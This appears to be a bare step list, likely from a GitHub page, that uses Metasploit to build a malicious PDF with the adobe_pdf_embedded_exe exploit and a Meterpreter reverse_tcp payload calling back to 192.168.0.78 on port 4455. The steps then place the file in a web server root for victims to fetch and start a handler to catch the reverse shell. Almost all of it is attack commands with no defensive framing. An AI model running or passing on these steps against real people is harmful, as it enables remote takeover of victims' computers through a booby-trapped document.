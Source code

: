 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 4 -  msfconsole

STEP 5 -  search type:exploit platform:windows adobe:pdf

STEP 6 -  use exploit/windows/fileformat/adobe_pdf_embedded_exe

STEP 7 -  info_

STEP 8 -  set payload windows/meterpreter/reverse_tcp

STEP 9 -  show options

STEP 10 -  set LHOST 192.168.0.78

STEP 11 -  set LPORT 4455

STEP 12 -  set FILENAME test.pdf

STEP 13 -  show options

STEP 14 -  exploit

STEP 15 -  sudo mv /home/kali/.msf4/local/test.pdf /var/www/html

STEP 16 -  use exploit/multi/handler

STEP 17 -  set payload windows/meterpreter/reverse_tcp

STEP 18 -  set LHOST 192.168.0.78

STEP 19 -  set LPORT 4455

STEP 20 -  exploit



